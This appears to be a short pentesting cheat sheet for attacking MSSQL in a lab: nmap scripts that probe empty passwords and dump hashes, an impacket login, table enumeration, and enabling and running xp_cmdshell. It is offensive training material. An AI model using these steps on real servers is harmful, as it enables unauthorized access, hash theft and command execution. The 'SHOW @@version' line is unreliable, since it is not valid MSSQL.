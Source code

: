 ### MSSQL Script Scan

```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```

### Login as a `mssql` user

```bash
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

### Show version

```bash
SHOW @@version;
```

### List all databases

```bash
SELECT name FROM sys.databases;
```

### List the tables in a database

```bash
SELECT * FROM <database_name>.information_schema.tables;
```

### List the contents in a table

```bash
select * from <database_name>.dbo.users;
```

### Enabling `xp_cmdshell`

```bash
## To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1
GO

## To update the currently configured value for advanced options.  
RECONFIGURE
GO  

## To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1
GO  

## To update the currently configured value for this feature.  
RECONFIGURE
GO
```

### Execute `xp_cmdshell`

```bash
EXECUTE xp_cmdshell 'whoami';
```